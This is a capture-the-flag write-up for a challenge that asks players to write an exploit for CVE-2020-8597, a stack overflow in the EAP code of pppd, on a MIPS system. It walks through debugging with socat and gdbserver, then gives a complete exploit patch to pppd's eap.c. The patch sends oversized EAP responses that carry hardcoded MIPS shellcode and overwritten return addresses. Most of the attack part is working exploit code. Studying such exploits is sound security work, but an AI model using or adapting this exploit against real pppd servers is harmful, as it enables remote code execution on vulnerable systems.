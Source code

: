 ## pppd
[中文](./README_zh.md) [English](./README.md)

[attachment](./attachment.zip)

[docker](./docker.zip)

This challenge is required to write 1 day exp of CVE-2020-8597
This cve itself is actually very simple, just a stack overflow
But the difficulty is to communicate with pppd and debug under the mips environment

Most of the teams did not find a way to communicate with pppd during the game, so I directly released the hint and used socat to communicate with pppd

Next is how to debug

First of all, the network is diabled by default

In /etc/init.d/S40network, delete all comments, then modify the start.sh script, delete -net none, add -redir tcp: 9999 :: 9999 -redir tcp: 4242 :: 4242, so Network is configured

Then modify /etc/inittab
change
```
ttyS0 :: sysinit: / pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
into
```
ttyS0 :: sysinit: / bin / sh
```

Then go to github to download a [gdbserver] (https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), repack a cpio, start it

After entering the system, you get a shell by default, and the system comes with a socat

carried out
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
Then execute the following command to get the pid of pppd
```
ps | grep pppd
```
Use gdbserver attach to pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
Then use gdb-multiarch to connect to gdbserver

Then downloading a pppd source code, compile
execute
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
now you can start debug and write the exp

following this [guide](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb66612),you can write the exp of this chall

exp patch is below
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```
